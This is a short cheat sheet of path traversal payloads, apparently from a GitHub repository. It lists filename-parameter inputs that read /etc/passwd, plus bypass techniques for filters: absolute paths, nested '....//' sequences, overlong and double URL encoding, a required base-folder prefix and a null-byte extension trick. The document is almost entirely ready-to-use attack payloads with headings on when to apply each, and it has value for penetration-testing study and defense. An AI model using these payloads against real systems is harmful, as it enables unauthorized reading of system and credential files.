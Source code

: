 ### Simple:
- ?filename=../../../etc/passwd

## Stripping away of directory traversal sequences by application:
### Try to use absolute filepath:
- ?filename=/etc/passwd

### Try to use nested traversal sequences:
- ?filename=....//....//....//etc/passwd

### Try to use non-standard encodings:
- ?filename=..%c0%af..%c0%af..%c0%afetc/passwd
- ?filename=..%252f..%252f..%252fetc/passwd

### If it must start with a expected base folder like /var/www/images:
- ?filename=/var/www/images/../../../etc/passwd

### If it expects a specific file extension like .png:
- ?filename=../../../etc/passwd%00.png